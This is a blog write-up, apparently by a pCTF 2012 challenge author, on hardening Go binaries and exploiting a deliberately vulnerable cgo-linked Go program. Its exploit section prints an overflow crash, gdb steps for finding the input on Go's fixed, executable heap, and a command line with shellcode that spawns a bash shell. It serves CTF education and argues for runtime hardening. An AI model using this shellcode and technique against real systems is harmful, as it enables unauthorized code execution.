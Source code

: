 ```yaml
---
title: Securing and Exploiting Go Binaries
author: awreece
layout: post
permalink: /?p=667
categories:
  - Report
  - Write-Ups
tags:
  - go
  - golang
  - pCTF 2012
---
```

### Introduction

I have spent some time over the past month or so trying to use Go binaries in a secure manner and trying to exploit Go binaries and I thought it would be useful if I talked a little bit about my journey. 

First, I have been working in Go for about a year now. As part of this years pCTF, I created a problem that involved exploiting a Go binary (binary and source [here][1]). I consequently had to deal with securing the binary to prevent leaking unnecessary information and had some fun playing around with exploiting a Go binary. 

<!--more-->

### Securing a Go Binary

Creating a secure, production-ready Go binary was more challenging than expected. By default: 

  * The Go build tools include the full path to the source on the build machine in the binary. 
  * Go binaries helpfully print the faulting address and instruction on segmentation faults.
  * The heap in Go is loaded at a fixed address and is executable.
  * Go binaries are linked with full debug information.

I filed a [issue][2] suggesting the option for a compiler flag to create a hardended binary, but there has not been much interest in that yet. 

Some of these problems can be mitigated with appropriate hacks. The path to the Go runtime can be changed by setting the environment variable <tt>GOROOT_FINAL</tt> before running <tt>all.bash</tt> (see [this comment][3] on the issue I filed). For user code, it takes some more work: I had to deep copy all of my source into a <tt>/tmp/build</tt> directory before compiling so that the only string was a <tt>"/tmp/build"</tt> rather than the actual path. 

Some debug information can be stripped by passing <tt>-s</tt> as a command line to the linker (for example, <tt>go build -ldflags "-s" prog.go</tt>). Note that this does not remove file paths, etc from the binary. It is pretty easy to patch the Go runtime to avoid printing the faulting address and instruction, but that should probably take the form of a real change rather than a quick and dirty patch. Unfortunately, the heap to be seems executable and loaded into fixed location by design (so that closures are easier and that heap addresses do not overlap with valid unicode strings, making the garbage collector easier), so it is not clear that that will be fixed for anytime soon. 

### Exploiting a Go program

#### Disclaimer

First things first &#8211; I did *not* find an exploit in the Go runtime that gave code execution. Instead, I linked the Go binary to a cgo library that had an intentional vulnerability. I had to do some work to make the cgo library exploitable. I made an explicitly vulnerabile C program and specified flags <tt>-fno-stack-protector -U_FORTIFY_SOURCE</tt> to discard modern protections. Lastly, the behavior I performed in cgo (printing a string to stdout) could have trivially been perfomed in pure Go. 

However, I personally feel like Go packages use the unsafe package or are linked against full C libraries commonly enough (consider banthars [package][4] with Go bindings for OpenGl or a [variety][5] of other packages) that it is irresponsible for the Go runtime to be poorly secured out of the claim that there are no vulnerabilies in Go. Furthermore, the Go runtime should be better secured to avoid the damage from any as of yet undiscovered vulnerabilities in the Go runtime. 

Going forward, I will assume that there is a vulnerability (introduced possibly by a vulnerable C library) and will focus on one interesting way to exploit it by using the Go runtime. I will specifically focus on the [<tt>webapp</tt>][6] problem used in pCTF. 

#### The actual exploit

The Go runtime has some really interesting properties that make it fun to exploit:

  * The heap is executable.
  * The heap is deterministic and in a fixed location every run
  * Immutable strings tend to end up on the heap

We will construct an exploit that takes advantage of all of these properties. First, we get get a vulnerability that gives us a crash. 

<pre>$ ./webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
unexpected fault address 0x42424242
throw: fault
[signal 0xb code=0x1 addr=0x42424242 pc=0x42424242]

goroutine 1 [syscall]:
levellog._Cfunc_Log(0xb736e0b0, 0xb736e0c8)
	/tmp/go-build279009652/levellog/_obj/_cgo_defun.c:50 +0x32
levellog.Log(0x1, 0x1883cd00, 0x7f)
	/tmp/go-build279009652/levellog/_obj/log.cgo1.go:126 +0x140
main.main()
	/tmp/build/src/webapp/main.go:21 +0x101

goroutine 2 [syscall]:
created by runtime.main
	/usr/local/src/go/src/pkg/runtime/proc.c:221</pre>

Now that we have code execution (and we know the vulnerable function due to the helpful stack trace), we <tt>objdump</tt> the function and put a breakpoint before returning to our clobbered return address.

<pre>080624d0 &lt;Log&gt;:
 80624d0:       81 ec 9c 00 00 00       sub    $0x9c,%esp
 80624d6:       8b 84 24 a4 00 00 00    mov    0xa4(%esp),%eax
 80624dd:       89 9c 24 94 00 00 00    mov    %ebx,0x94(%esp)
 80624e4:       e8 4f 00 00 00          call   8062538 &lt;__i686.get_pc_thunk.bx&gt;
 80624e9:       81 c3 17 7b 25 00       add    $0x257b17,%ebx
 80624ef:       89 b4 24 98 00 00 00    mov    %esi,0x98(%esp)
 80624f6:       8d 74 24 10             lea    0x10(%esp),%esi
 80624fa:       89 44 24 0c             mov    %eax,0xc(%esp)
 80624fe:       8b 84 24 a0 00 00 00    mov    0xa0(%esp),%eax
 8062505:       89 34 24                mov    %esi,(%esp)
 8062508:       89 44 24 08             mov    %eax,0x8(%esp)
 806250c:       8d 83 00 c3 f2 ff       lea    -0xd3d00(%ebx),%eax
 8062512:       89 44 24 04             mov    %eax,0x4(%esp)
 8062516:       e8 ad 6c 25 00          call   82b91c8 &lt;sprintf@plt&gt;
 806251b:       89 34 24                mov    %esi,(%esp)
 806251e:       e8 b5 6c 25 00          call   82b91d8 &lt;puts@plt&gt;
 8062523:       8b 9c 24 94 00 00 00    mov    0x94(%esp),%ebx
 806252a:       8b b4 24 98 00 00 00    mov    0x98(%esp),%esi
 8062531:       81 c4 9c 00 00 00       add    $0x9c,%esp
 8062537:       c3                      ret</pre>

<pre>$ gdb webapp
GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
...
Reading symbols from /tmp/build/webapp...done.
Loading Go Runtime support.
(gdb) b *0x8062537
Breakpoint 1 at 0x8062537</pre>

We run our exploit again, and then search the heap for our string (we know that the heap is always in the range <tt>[0x18600000, 0x18900000]</tt> for this binary since Go has a deterministic heap). 

<pre>(gdb) run --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
Starting program: /tmp/build/webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
[Thread debugging using libthread_db enabled]
[New Thread 0xb7ccbb70 (LWP 7869)]
AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x08062537 in Log ()
(gdb) x/a $esp
0xbffff1ac:	0x42424242
(gdb) find 0x18600000, 0x18900000, 0x42424242
0x1883cd7b</pre>

So now we know that our string, which is <tt>:AAAA...AAAABBBB</tt>, is located at <tt>0x1883cd7b - 4 - 109 = 0x1883cd0e</tt> on the heap. (Note &#8211; this is because string concatenations put strings onto the deterministic heap). But then we are done! We change string to include shell code, and then use our control flow control to jump to it.

<pre>$ ./webapp -loglevel=100 -logfmt=AAAAAAAAA%8d -address="$(perl -e ' print ":\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0e\xcd\x83\x18"')"
AAAAAAAAA       1Listening on :j
                                Xï¿½Rfh-pï¿½ï¿½Rjhh/bash/binï¿½ï¿½RQSï¿½ï¿½Í€AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÍƒ
$</pre>

Success! 

### Postmortem

This exploit is interesting for a number of reasons. First of all, it works on any (32 bit) machine running the same version of Go as the attacker. This is because heap allocations end up being quite deterministic. Next, this type of exploit (jump to an object on the executable heap, such as a string put there via a string concatenation) is something that would be easy to replicate in a variety of Go binaries. Lastly, the executable heap offers an easy surface for heap sprays and other attacks. It is also easy to imagine an expoit that uses a heap overwrite to clobber a closure and get code execution. 

It is also important to note that, while the vulnerability is introduced through C code, common C protections such as NX, ASLR, and libc randomization would make this binary very difficult to exploit without the use of the weak Go runtime. I wish to repeat: *this binary is easily exploitable because it is a Go binary*, even assuming ASLR, NX, and libc randomization. 

I firmly believe that Go should consider randomizing its heap and making it no longer executable. I also think that it is imperative to provide a compiler option that hardens the binary by disabling the printing of debugging information (stack traces, faulting addresses) on program crashes and stripping debugging / package information from the binary. 

### Go Community Response

For anyone who is interested, the Go community&#8217;s response is [here][7]. In summary: vulnerabilities in Go are extremely unlikely so the engineering/complexity overhead required to implement any of these protections is not worth it. I respectfully disagree &#8211; vulnerabilities can come from cgo libraries or from as of yet unknown bugs in the Go runtime itself. Furthermore, I suspect that adding ASLR or NX would not require very much effort. 

### Other writeups

There are writeups of this problem available by:

  * [Eindbazen][8] (C style return to libc exploit)
  * [w3stormz][9] (Go heap exploit, in French)

### tl;dr

Go binaries are compiled with a lot of debug info, which some people might want to strip. The Go heap is executable and deterministic, making the exploitation of the pCTF Bunyan problem relatively straightforward. 

<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/bunyan-wp.tar.gz
 [2]: http://code.google.com/p/go/issues/detail?id=3467
 [3]: http://code.google.com/p/go/issues/detail?id=3467#c4
 [4]: https://github.com/banthar/gl
 [5]: http://go-lang.cat-v.org/library-bindings
 [6]: webapp
 [7]: http://groups.google.com/group/golang-nuts/browse_thread/thread/25df6d94d73a8d41
 [8]: http://eindbazen.net/2012/05/plaid-ctf-2012-bunyan/
 [9]: http://www.bases-hacking.org/bunyan-plaidctf2012.html